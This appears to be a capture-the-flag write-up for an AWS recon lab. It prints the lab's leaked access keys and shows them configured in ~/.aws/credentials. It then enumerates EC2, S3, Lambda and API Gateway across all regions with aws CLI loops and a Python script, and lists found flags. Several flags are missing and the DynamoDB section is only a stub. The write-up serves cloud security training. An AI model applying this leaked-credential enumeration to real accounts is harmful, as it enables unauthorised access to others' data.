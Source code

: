 # AWS system recon report

https://attackdefense.com/challengedetails?cid=2074

In this CTF a recon was done on a AWS system where a read-only user's AWS credentials were leaked. Nothing was specified except that the user was using the services EC2, DyanmoDB, Lambda, API Gateway, S3, and Cloudwatch and 7 flags were to be found.

```
Access Key ID: AKIAUAWOPGE5OQVLUEIX
Secret Access Key: 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
```

To use these credentials AWS CLI was configured like this:

```
$ cat ~/.aws/credentials
[default]
aws_access_key_id = AKIAUAWOPGE5OQVLUEIX
aws_secret_access_key = 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

$ cat ~/.aws/config
[default]
output = yaml
```

Other dependencies:

* [yq](https://mikefarah.gitbook.io/yq/)

## Regions

Most AWS services run in a specific a specific region. So while searching for deployed services all regions must be checked. The file `regions.txt` was created which contains all regions:

```
$ cat regions.txt
af-south-1
ap-east-1
ap-south-1
ap-northeast-3
ap-northeast-2
ap-southeast-1
ap-southeast-2
ap-northeast-1
ca-central-1
cn-north-1
cn-northwest-1
eu-central-1
eu-west-1
eu-west-2
eu-south-1
eu-west-3
eu-north-1
me-south-1
sa-east-1
us-gov-east-1
us-gov-west-1
```

## EC2

EC2 instances were searched like this:

```
for region in $(cat regions.txt); do echo $region; aws --region=$region --no-cli-pager ec2 describe-instances; done
e
```

This revealed two EC2 instances in regions eu-west-2 and ap-southeast-2. The instance in ap-southeast-2 had FLAG1 in its tag:

```
$ aws --region=ap-southeast-2 ec2 describe-instances | yq r - 'Reservations[*].Instances[*].Tags'
- Key: FLAG1
  Value: 0cd68e3e7763d993307b65ea0facf740
```

## S3

Fetch a list of S3 buckets:

```
$ aws s3api list-buckets | yq r - 'Buckets[*].Name'
data-extractor-repo
developers-secret-bucket
temporary-public-image-store
users-personal-files
```

An object of interest `dave-shared-bucket/flag.txt` can be found by listing `developers-secret-bucket`:

```
$ aws s3api list-objects --bucket=developers-secret-bucket
Contents:
- ETag: '"d41d8cd98f00b204e9800998ecf8427e"'
  Key: dave-shared-bucket/
  LastModified: '2020-10-29T11:49:23+00:00'
  Owner:
    ID: 7153c083c4d4c8b9bea0cdd3c5ec7d8ec99ba029736225369fa61ae449322da5
  Size: 0
  StorageClass: STANDARD
- ETag: '"fef650ed3acf9bef8f3cec95832314c7"'
  Key: dave-shared-bucket/flag.txt
  LastModified: '2020-10-29T22:50:01+00:00'
  Owner:
    ID: 7153c083c4d4c8b9bea0cdd3c5ec7d8ec99ba029736225369fa61ae449322da5
  Size: 39
  StorageClass: STANDARD
```

Fetching and reading the object reveals FLAG2:

```
$ aws s3api get-object --bucket=developers-secret-bucket --key=dave-shared-bucket/flag.txt flag.txt
AcceptRanges: bytes
ContentLength: 39
ContentType: text/plain
ETag: '"fef650ed3acf9bef8f3cec95832314c7"'
LastModified: '2020-10-29T22:50:01+00:00'
Metadata: {}
$ cat flag.txt
FLAG2: 305f19a9072a580f2de275c57e5c16c0
```

## Lambda

To find lambda functions the following script was used:

```python
import subprocess
from pathlib import Path

regions = list(
    filter(None, Path("all_aws_regions.txt").read_text().split("\n"))
)

for region in regions:
    operations = [
        # "list-aliases",
        "list-event-source-mappings",
        "list-functions",
        # "list-layer-versions",
        "list-layers",
        # "list-provisioned-concurrency-configs",
        # "list-tags",
        # "list-versions-by-function",
    ]
    for operation in operations:
        print(region)
        command = f"aws --region={region} --no-cli-pager lambda {operation}"
        print(f"$ {command}")
        subprocess.run(command, shell=True, check=False)
```

This revealed a fucntion in region ap-southeast-1.

Calls to the lambda function have to go through API Gateway (see policy)


## API Gateway

Through the lambda function policy we khnow there is an API gateway in ap-southeast-1 so we find the rest-api like this:

```
aws --region=ap-southeast-1 apigateway get-rest-apis
```

These URLS serve the function:

https://cwlw44ht84.execute-api.ap-southeast-1.amazonaws.com/Prod
https://cwlw44ht84.execute-api.ap-southeast-1.amazonaws.com/Stage

## DynamoDB

FLAG7 is in dynamodb:us-east-1:tables:CardDetails:items


